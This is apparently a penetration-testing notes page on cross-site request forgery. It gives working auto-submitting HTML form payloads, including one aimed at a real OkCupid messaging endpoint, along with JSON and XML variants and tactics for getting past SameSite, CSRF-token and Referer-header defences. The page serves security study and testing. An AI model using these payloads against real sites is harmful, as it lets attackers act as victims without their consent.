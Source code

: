 ```yaml
---
description: Making a request on the user's behalf.
---
```


# Cross Site Request Forgery (CSRF)

## Overview

If a website automatically sends a user's credentials when you interact with it (cookies are sent automatically), then CSRF can be used to impersonate the user (assuming the website doesn't do anything to prevent it).

## Common CSRF Payloads

Different types of endpoints require different techniques:

* POST
* GET
* DELETE/UPDATE
* JSON endpoint
* XML endpoint

### POST

Make a POST form with hidden inputs and use JavaScript to send the POST request automatically when the user navigates to the page.

### GET

Make an image with zero width and length and `src=`t`he_csrf_Link`. The GET request is made automatically when the browser tries to load the image.

### PUT/DELETE

This one is very difficult. Can only be accomplished with like browser plugins/plugin vulns and stuff.

### JSON

You can try to do a CSRF request to a JSON API endpoint.

{% embed url="https://blog.azuki.vip/csrf/" %}
\

{% endembed %}

**Caveats** (as of august 2021):

* The server must not require **content-type: application/json** in the headers. The method results in a request with a **content-type: text/plain**  header
* This method results in one of the fields in the JSON request being `"foo":"="`. In other words, the server must not deny the request because of an **unexpected field**, or an **expected field with the value** `=`
* The SameSite cookie attribute must not be Strict
  * It defaults to **Lax** on browsers
  * In Firefox, it always works when SameSite has not been set
    * Haven’t tested when SameSite has been explicitly set to Lax
  * In Chrome, it works when SameSite has not been set
    * But only for **two minutes**, starting from the time the cookie was assigned to the user
    * Probably won’t work if SameSite has been explicitly set to Lax





Sample payload from the article. Sends a JSON request to the okcupid API:

```
<html>  
 <body>  
   <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain"\>  
     <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop\_global", "service":"other"}'\>  
     <input type="submit" value="Click me"\>  
   </form>  
   <script>  
     window.onload = () => {form.submit()}  
   </script>  
 </body>  
</html>
```

Zseano also talked about it in his [blog article](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html). Here's his payload (but his is **older**):

```
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="{"params":{"limit":20,"and":false,"filters":[],"excluded_contacts":[]},"fields":["First Name","Last Name","Email Address","Title","Notes","Organization","Street","City","State","Tags","Zip Code","Phone Number","Gender","Event ID","Event Title","VIP","Twitter Handle","Twitter URL","Twitter Followers","Twitter Following","Facebook Name","Facebook URL","Facebook Friends","Instagram Handle","Instagram URL","Instagram Followers","Instagram Following","Website","Date Added","Unsubscribed"],"recipient":"myemail+2" value='@gmail.com'>
         <input type="submit" value="submit"> </form>
     </body>
  </html>
  
```

### XML

From Zseano's [blog](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html):

```
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="<foo> <html xmlns:html='http://www.w3.org/1999/xhtml'> <html:script>alert(1);</html:script> </html> </foo>">
         <input type="submit" value="submit"> </form>
     </body>
  </html>
```

## Login CSRF

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#login-csrf" %}

Many developers tend to ignore CSRF vulnerabilities on login forms. They assume that CSRF would not be applicable on login forms because the user is not authenticated at that stage. However, CSRF vulnerabilities can still occur on login forms where the user is not authenticated, but the impact and risk is different.

For example, if an attacker uses CSRF to authenticate a victim on a shopping website using the attacker's account, and the victim then enters their credit card information, an attacker may be able to purchase items using the victim's stored card details

## Mitigations

OWASP Prevention Cheat Sheet

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html" %}

### SameSite

The default option for [SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) these days is **Lax**, which stops a lot of CSRF requests (cookies aren't sent with POST requests from other domains).

The web application is still vulnerable if:

* It does something sensitive in response to a GET request -- cookies are still sent along with GET requests if the user navigates to the site.
* The CSRF comes from a subdomain. For example, pages.github.com can still CSRF github.com.
* [Chrome SameSite Lax+POST](cross-site-request-forgery-csrf.md#chrome-default-samesite-bypass)

## Mitigation Bypasses

### Chrome Default SameSite Lax+POST Bypass

{% embed url="https://medium.com/@renwa/bypass-samesite-cookies-default-to-lax-and-get-csrf-343ba09b9f2b" %}

While Chrome does set cookies to SameSite=Lax by default, for the first two minutes after the cookie was set, the policy is effectively SameSite=None. This can be used to exploit CSRF in certain cases.

### CSRF Tokens

If an anti-CSRF token is added, you can bypass it with:

* XSS
* Steal the CSRF token (using CSS injection, for example)
* Clickjacking
  * If you can fill in the data you want for them, and then clickjack them into hitting “submit” (through an iframe), then you can make a request on their behalf
* CSRF token misconfigurations
  * Try a blank csrf token
  * Try to see if accounts can share the same CSRF token. Make 2 accounts and see if the same token works for both.
  * Change one character in the token, maybe it only checks length or something.

### Referrer Header Checking



If the Referrer header is checked, then you can try a few things: &#x20;

1. If `site.com/csrf` checks that "site.com" is in the string, you can send the query from `malicious.com/site.com` or `site.com.malicious.com` .
2. Send a blank referrer header and see if that works
3. Use XSS (like reflected XSS) to achieve the goal.





